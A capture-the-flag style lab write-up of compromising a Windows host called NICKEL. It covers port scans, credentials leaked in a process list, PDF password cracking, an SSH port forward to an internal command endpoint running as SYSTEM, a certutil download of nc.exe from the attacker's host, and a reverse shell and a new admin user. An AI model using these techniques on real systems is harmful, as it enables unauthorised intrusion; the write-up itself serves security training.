Writeup by wook413

[TOC]

# Recon

## Nmap

I initiated the assessment with my standard three-stage Nmap methodology. First I performed a full TCP port scan (65,535 ports), followed by a targeted service enumeration on the discovered open ports, and concluded with a scan of the top 10 UDP ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:45 UTC
Nmap scan report for 192.168.168.99
Host is up (0.078s latency).
Not shown: 65241 closed tcp ports (reset), 279 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
8089/tcp  open  unknown
33333/tcp open  dgi-serv
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 21,22,135,139,445,3389,5040,8089,33333,49664-49669
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:46 UTC
Nmap scan report for 192.168.168.99
Host is up (0.047s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.60 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=nickel
| Not valid before: 2025-12-06T11:11:21
|_Not valid after:  2026-06-07T11:11:21
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2026-01-27T01:49:29+00:00
|_ssl-date: 2026-01-27T01:50:35+00:00; 0s from scanner time.
5040/tcp  open  unknown
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-27T01:49:30
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 226.47 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                                           
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:51 UTC
Nmap scan report for 192.168.168.99
Host is up (0.046s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```

# Initial Access

## FTP 21

Initial checks showed that `FTP anonymous login` was disabled.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP                  
Connected to 192.168.168.99.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit <https://filezilla-project.org/>
Name (192.168.168.99:kali): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```

## SMB 139 445

Similarly, `SMB Null Authentication` attempts failed across multiple tools, as the server consistently denied access.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:56 UTC
Nmap scan report for 192.168.168.99
Host is up (0.044s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 41.35 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP                                                                      session setup failed: NT_STATUS_ACCESS_DENIED                                                
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP        

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \\    /"  ||   _  "\\ |"  \\    /"  |     /""\\       |   __ "\\
  (:   \\___/  \\   \\  //   |(. |_)  :) \\   \\  //   |    /    \\      (. |__) :)
   \\___  \\    /\\  \\/.    ||:     \\/   /\\   \\/.    |   /' /\\  \\     |:  ____/
    __/  \\   |: \\.        |(|  _  \\  |: \\.        |  //  __'  \\    (|  /
   /" \\   :) |.  \\    /:  ||: |_)  :)|.  \\    /:  | /   /  \\   \\  /|__/ \\
  (_______/  |___|\\__/|___|(_______/ |___|\\__/|___|(___/    \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     <https://github.com/ShawnDEvans/smbmap>

[*] Detected 1 hosts serving SMB                     
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                       
[!] Something weird happened on (192.168.168.99) Error occurs while reading from remote(104) on line 1015                    
[*] Closed 1 connections
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nxc smb $IP -u guest -p ''                                            
SMB         192.168.168.99  445    NICKEL           [*] Windows 10 / Server 2019 Build 18362 x64 (name:NICKEL) (domain:nickel) (signing:False) (SMBv1:False)
SMB         192.168.168.99  445    NICKEL           [-] nickel\\guest: STATUS_ACCOUNT_DISABLED
```

## HTTP 8089 33333

I ran the Nmap `http-enum` script against port 8089 and 33333, but it yielded no significant results.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 8089,33333                       
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:57 UTC
Nmap scan report for 192.168.168.99
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
8089/tcp  open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
33333/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 24.33 seconds
```

### HTTP 8089

The webpage on port 8089 hosted a “**DevOps Dashboard**” featuring three buttons: ‘**List Current Deployments**’, ‘**List Running Processes**’, and ‘**List Active Nodes**’.



Theses buttons appeared to link to a static IP (**169.254.1.128**) on port 33333.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -i <http://$IP:8089>             
HTTP/1.1 200 OK
Content-Length: 468
Server: Microsoft-HTTPAPI/2.0
Date: Tue, 27 Jan 2026 02:33:30 GMT

<h1>DevOps Dashboard</h1>
<hr>
<form action='<http://169.254.1.128:33333/list-current-deployments>' method='GET'>
<input type='submit' value='List Current Deployments'>
</form>
<br>
<form action='<http://169.254.1.128:33333/list-running-procs>' method='GET'>
<input type='submit' value='List Running Processes'>
</form>
<br>
<form action='<http://169.254.1.128:33333/list-active-nodes>' method='GET'>
<input type='submit' value='List Active Nodes'>
</form>
<hr>
```



### HTTP 33333

While the static IP was unreachable, the target host also had port 33333 open. Navigating there directly resulted in an “Invalid Token” error.



Appending `/list-current-deployments` to the URL returned a **Cannot “GET” /list-current-deployments** error. This suggested the endpoint might support alternative HTTP methods, such as **POST**.



Using `Burp Suite` , I sent a **POST** request to `/list-current-deployments` , which returned a “Not Implemented” message, which I have never seen with a **GET** request.



A **POST** request to `/list-running-procs` successfully triggered a response, dumping a list of what appeared to be every active process on the host.



Within the process list, I discovered a set of exposed credentials: `ariah:Tm93aXNlU2xvb3BUaGVvcnkxMzkK` .

```bash
HTTP/1.1 200 OK
Content-Length: 2916
Server: Microsoft-HTTPAPI/2.0
Date: Tue, 27 Jan 2026 02:35:54 GMT

name        : System Idle Process
commandline : 

name        : System
commandline : 

name        : Registry
commandline : 

name        : smss.exe
commandline : 

name        : csrss.exe
commandline : 

name        : wininit.exe
commandline : 

name        : csrss.exe
commandline : 

name        : winlogon.exe
commandline : winlogon.exe

name        : services.exe
commandline : 

name        : lsass.exe
commandline : C:\\Windows\\system32\\lsass.exe

name        : fontdrvhost.exe
commandline : "fontdrvhost.exe"

name        : fontdrvhost.exe
commandline : "fontdrvhost.exe"

name        : dwm.exe
commandline : "dwm.exe"

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\\windows\\system32\\ws80.ps1

name        : Memory Compression
commandline : 

name        : cmd.exe
commandline : cmd.exe C:\\windows\\system32\\DevTasks.exe --deploy C:\\work\\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\\windows\\system32\\ws8089.ps1

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\\windows\\system32\\ws33333.ps1

name        : FileZilla Server.exe
commandline : "C:\\Program Files (x86)\\FileZilla Server\\FileZilla Server.exe"

name        : sshd.exe
commandline : "C:\\Program Files\\OpenSSH\\OpenSSH-Win64\\sshd.exe"

name        : VGAuthService.exe
commandline : "C:\\Program Files\\VMware\\VMware Tools\\VMware VGAuth\\VGAuthService.exe"

name        : vm3dservice.exe
commandline : C:\\Windows\\system32\\vm3dservice.exe

name        : vmtoolsd.exe
commandline : "C:\\Program Files\\VMware\\VMware Tools\\vmtoolsd.exe"

name        : vm3dservice.exe
commandline : vm3dservice.exe -n

name        : dllhost.exe
commandline : C:\\Windows\\system32\\dllhost.exe /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235}

name        : WmiPrvSE.exe
commandline : C:\\Windows\\system32\\wbem\\wmiprvse.exe

name        : LogonUI.exe
commandline : "LogonUI.exe" /flags:0x2 /state0:0xa3998855 /state1:0x41c64e6d

name        : msdtc.exe
commandline : C:\\Windows\\System32\\msdtc.exe

name        : conhost.exe
commandline : \\??\\C:\\Windows\\system32\\conhost.exe 0x4

name        : conhost.exe
commandline : \\??\\C:\\Windows\\system32\\conhost.exe 0x4

name        : conhost.exe
commandline : \\??\\C:\\Windows\\system32\\conhost.exe 0x4

name        : conhost.exe
commandline : \\??\\C:\\Windows\\system32\\conhost.exe 0x4

name        : MicrosoftEdgeUpdate.exe
commandline : "C:\\Program Files (x86)\\Microsoft\\EdgeUpdate\\MicrosoftEdgeUpdate.exe" /c

name        : SgrmBroker.exe
commandline : 

name        : SearchIndexer.exe
commandline : C:\\Windows\\system32\\SearchIndexer.exe /Embedding

name        : WmiApSrv.exe
commandline : C:\\Windows\\system32\\wbem\\WmiApSrv.exe
```

The password seemed to be Base64-encoded; after decoding it to plaintext, I successfully authenticated via SSH.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d              
NowiseSloopTheory139

ariah:NowiseSloopTheory139
```

# Shell as `ariah`

```bash
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

ariah@NICKEL C:\\Users\\ariah>whoami
nickel\\ariah
```

found `local.txt`

```bash
ariah@NICKEL C:\\Users\\ariah\\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9451-68F7

 Directory of C:\\Users\\ariah\\Desktop

04/14/2022  03:46 AM    <DIR>          .
04/14/2022  03:46 AM    <DIR>          ..
01/26/2026  05:36 PM                34 local.txt
               1 File(s)             34 bytes
               2 Dir(s)   7,659,065,344 bytes free

ariah@NICKEL C:\\Users\\ariah\\Desktop>type local.txt
ef1...
```

# Privilege Escalation

with valid credentials, I revisited the FTP server and retrieved a file named `Infrastructure.pdf` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP
Connected to 192.168.168.99.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit <https://filezilla-project.org/>
Name (192.168.168.99:kali): ariah
331 Password required for ariah
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||53522|)
150 Opening data channel for directory listing of "/"
-r--r--r-- 1 ftp ftp          46235 Sep 01  2020 Infrastructure.pdf
226 Successfully transferred "/"
```

The file was password-protected, but I successfully cracked it using `pdf2john` and `John the Ripper` .



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ pdf2john Infrastructure.pdf > pdf2hash
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john pdf2hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ariah4168        (Infrastructure.pdf)     
1g 0:00:00:59 DONE (2026-01-27 02:46) 0.01671g/s 167266p/s 167266c/s 167266C/s arial<3..ariadne01
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed.
```

The PDF contained three URLs, suggesting the existence of internal-only web services.



The target indeed was running an internal facing web service on port 80.

```bash
ariah@NICKEL C:\\Users\\ariah\\Desktop>netstat -ano                                                                                          
                                                                                                                                          
Active Connections                                                                                                                        
                                                                                                                                          
  Proto  Local Address          Foreign Address        State           PID 
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       1904
  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING       1984
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       836 
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4  
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1012
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       696
  TCP    0.0.0.0:8089           0.0.0.0:0              LISTENING       4  
  TCP    0.0.0.0:33333          0.0.0.0:0              LISTENING       4  
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       620 
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       520
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       356 
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1004
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       612 
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       1812
  TCP    127.0.0.1:80           0.0.0.0:0              LISTENING       4   
  TCP    127.0.0.1:14147        0.0.0.0:0              LISTENING       1904
  TCP    192.168.168.99:22      192.168.45.236:57478   ESTABLISHED     1984
  TCP    192.168.168.99:139     0.0.0.0:0              LISTENING       4   
```

I established an SSH Local Port Forward to access the internal network.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -L 80:127.0.0.1:80 ariah@$IP
ariah@192.168.168.99's password: 
```

A `curl` inspection of the internal server was initially inconclusive. However, the PDF identified `http://nickel/?` as a “Temporary Command” endpoint. The trailing question mark suggested paramter-based execution.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -i localhost       
HTTP/1.1 200 OK
Content-Length: 97
Last-Modified: Mon, 26 Jan 2026 19:49:29 GMT
Server: Powershell Webserver/1.2 on Microsoft-HTTPAPI/2.0
Date: Tue, 27 Jan 2026 03:49:29 GMT

<!doctype html><html><body>dev-api started at 2025-12-07T05:26:25

        <pre></pre>
</body></html>                                                                                                                                          
```

While a dash prefix returned an “Incorrect Parameter” error, prepending a command with a question mark (`?whoami`) successfully executed the command on the server.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl localhost:8888/whoami
<!doctype html><html><body>Incorrect Parameter</body></html>
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl localhost:8888?whoami
<!doctype html><html><body>dev-api started at 2025-12-07T05:26:25

        <pre>nt authority\\system
</pre>
</body></html>
ariah@NICKEL C:\\Users\\ariah\\Desktop>certutil -urlcache -split -f <http://192.168.45.236/nc.exe> nc.exe
****  Online  ****
  0000  ...
  aab0
CertUtil: -URLCache command completed successfully.
```

From here, there are several paths to a `SYSTEM` shell. I will demonstrate two methods: executing a traditional reverse shell via `nc.exe` , and creating a new user to be added to the `Local Administrators` group for SSH access.

# Shell as `system`

## Method 1 - Reverse Shell



```bash
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
52e...
```

## Method 2 - Create a New User







```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh wook@$IP
wook@192.168.168.99's password: 
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

wook@NICKEL C:\\Users\\wook>whoami
nickel\\wook
```

found `proof.txt`

```bash
wook@NICKEL C:\\Users\\Administrator\\Desktop>type proof.txt
52e...
```